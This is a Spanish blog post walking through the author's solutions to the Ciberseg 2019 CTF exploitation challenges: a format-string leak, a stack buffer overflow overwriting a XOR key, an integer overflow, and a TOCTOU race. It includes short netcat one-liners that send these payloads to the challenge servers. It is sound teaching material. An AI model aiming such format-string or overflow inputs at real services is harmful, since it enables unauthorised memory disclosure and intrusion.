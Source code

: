 ```yaml
---
layout: post
title:  "Ciberseg 2019: explotación"
date:	2019-01-27 11:27:51 +0100
author: foo
categories: es ctf ciberseg write-up exploiting
lang: es
ref: ciberseg-2019-exploiting
---
```



En este post voy a explicar mis soluciones a los retos del Ciberseg de 2019. En concreto,
este artículo se corresponde con los de la categoría de **explotación**.

El [Ciberseg](https://ciberseg.uah.es/) es un congreso que tiene lugar todos los años por
estas fechas en la Universidad de Alcalá de Henares. La verdad es que los años anteriores
siempre ha sido divertido, y este año no ha sido menos :) Además, el podio ha estado muy
reñido y hubo sorpresas de última hora :D (al final gané en la última hora,
literalmente, por apenas unos pocos puntitos).


En fin, estos son los retos y sus soluciones. Lamentablemente, estos retos eran todos
remotos; así que no dispongo de los recursos para poder montarse los retos y resolverlos
por vuestra cuenta.

-----------------------------------------------------------------------------------------

# 1.- Loro (100 puntos)

La descripción de este reto dice así:

> Hemos contratado a un loro para que gestione las flags. Lo tenemos viviendo en el
> puerto 2323


Este reto consistía en un programa que repetía exactamente lo que se enviaba. El problema
es que no está bien escrito y no repite _exactamente_ lo que se le envía. Por ejemplo, si
se envía `%p` devuelve cosas como _(nil)_, _0x8485632_... Es decir, que es vulnerable a
la explotación por cadenas de formato (_format strings_).

Para conseguir la bandera, simplemente hay que ir sacando el contenido de la memoria
hasta conseguir la _flag_. Por ejemplo, me hice este script:
```sh
#!/bin/bash

for i in {1..20}
do
	printf "\n ---- %3d ---- \n" "$i"
	echo -e "AAAABBBB-%$i\$s\n" | nc ctf.alphasec.xyz 2323
done
```

Al intento diez u once aparece nuestra bandera: `flag{passwordseña_dude}`.

-----------------------------------------------------------------------------------------

# 2.- Xorizo (125 puntos)

La descripción de este reto dice:

> Hicimos el programa definitivo para superar estructuras discretas, pero al poner la contraseña, no conseguimos que descifre el secreto. La contraseña es "estructurasdiscretasjeje", pero al introducirla nos saca algo incomprensible...
>
> Este es el código:
>
> void main(){
>
> char pass[24] = "xxxxxxxxxxxxxxxxxxxxxxxx";
> char x[10];
>
> char flag[24] = ...;
>
> char* res = malloc(24);
>
> scanf("%s", x);
> printf("%s\n", pass);
>
> int i;
> for(i = 0; i < 24; i++)
> res = pass ^ flag;
>
> printf("%s\n", res);
>
>
> }
>
>
> ¿Nos echas una mano? Está corriendo en ctf.alphasec.xyz:2424``



Al conectarnos, nos pedía una contraseña y luego imprimía una cadena con cosas que
parecían basura. Sin embargo, si se ponen más de 10 caracteres, esta cadena que se
imprime cambia. Como tenemos el código, podemos comprobar que se produce un
_buffer overflow_:
{% highlight C linenos %}
void main ()
{
	char pass [24] = "xxxxxxxxxxxxxxxxxxxxxxxx";
	char x [10];

	char flag [24] = ...;

	char* res = malloc (24);

==>	scanf ("%s", x);	/* OVERFLOW! No se comprueba que quepan en X */
	printf ("%s\n", pass);

	int i;
	for (i = 0; i < 24; i++)
		res = pass ^ flag;

	printf ("%s\n", res);
}
{% endhighlight %}


Como se muestra en la línea marcada (**:10**), se copia lo que venga por pantalla sin
comprobar que quepan en la variable _x_, que sólo tiene espacio para 10 Bytes (9
caracteres más el delimitador de fin de cadena, _0x00_). Una vez hemos rebasado la
variable _x_, podemos sobrescribir el contenido de _pass_.

Como luego se hace una XOR entre la variable _pass_ y la _flag_, podemos manipular los
valores para sacar el valor original de la bandera. Pero... ¿cuáles son los valores
apropiados para _pass_?

Deducimos que el valor de _pass_ se sacó calculando <img src="https://latex.codecogs.com/svg.latex?\fn_cm%20flag%20\oplus%20pass" class="inline-math" alt="flag \oplus pass">.
Sabiendo esto, nos podemos basar en que <img src="https://latex.codecogs.com/svg.latex?\fn_cm%20\left(%20flag%20\oplus%20pass%20\right)%20\oplus%20pass%20=%20flag" class="inline-math" alt="\left( flag \oplus pass \right) \oplus pass = flag">
para darle a _pass_ el valor `estructurasdiscretasjeje` y nos sacaría el valor original de _flag_.

Juntándolo todo, nuestro _exploit_ sería algo como esto:
```sh
printf "0123456789estructurasdiscretasjeje\n" | nc ctf.alphasec.xyz 2424
```

Y sacamos la _flag_: `flag{lohacehastaunperro}`

-----------------------------------------------------------------------------------------

# 3.- Numerao, numerao... (150 puntos)

La descripción de este reto dice:
> ¡Viva la numeración!
>
> En ctf.alphasec.xyz:2525 tenemos un sistema que sólo acepta a los números positivos,
> pero sobre todo le tiene tirria a los ceros. Si tras operar con las entradas obtuviese
> un 0... No queremos imaginarnos qué resultado catástrofico podría tener.

El servicio corriendo en el puerto 2525 pide tres números y luego devuelve su suma.
Claramente, en este reto la intención es forzar un desbordamiento del tipo de dato para
que los números sean negativos. En concreto, se trata de un _int overflow_: si ponemos un
número mayor a <img src="https://latex.codecogs.com/svg.latex?\fn_cm%20\frac%20{2^{32}}{2}%20-%201%20=%202147483647" class="inline-math" alt="\fn_cm \frac {2^{32}}{2} - 1 = 2147483647">
podemos jugar con los tres operandos hasta obtener 0.

Al final los valores que usé fueron **2147483647**, **2147483647** y **2**:
```sh
echo -e "2147483647\n2147483647\n2" | nc ctf.alphasec.xyz 2525
```

Cuando conseguimos que la suma sea cero, nos devuelve la _flag_: `flag{pavoreal_uuu}`.


-----------------------------------------------------------------------------------------

# 4.- Corre Chicote (200 puntos)

Este fue el único reto que no conseguí terminar; pero se trataba de explotar la condición
de carrera TOCTOU (_Time Of Check - Time Of Use_). Os dejo por aquí
[el _gist_ de @KaoRz](https://gist.github.com/KaoRz/44ed827c258054577fc59cd70a9f381d),
que sí consiguió sacarlo.

El código es bastante sencillo de entender: básicamente hay que acceder (por HTTP) a los
recursos `/verify` y `/read` de manera simultánea hasta conseguir leer la bandera.

-----------------------------------------------------------------------------------------

Y ya está. Estos retos eran más cortitos que los de criptología.

Siempre me lo paso bien con los retos del Ciberseg, y este año no ha sido menos. Espero
poder competir el año que viene, que seguro que se superan otra vez.

También quiero dar mi enhorabuena a los organizadores por todo su esfuerzo y su
creatividad para crear retos fuera de lo común :D
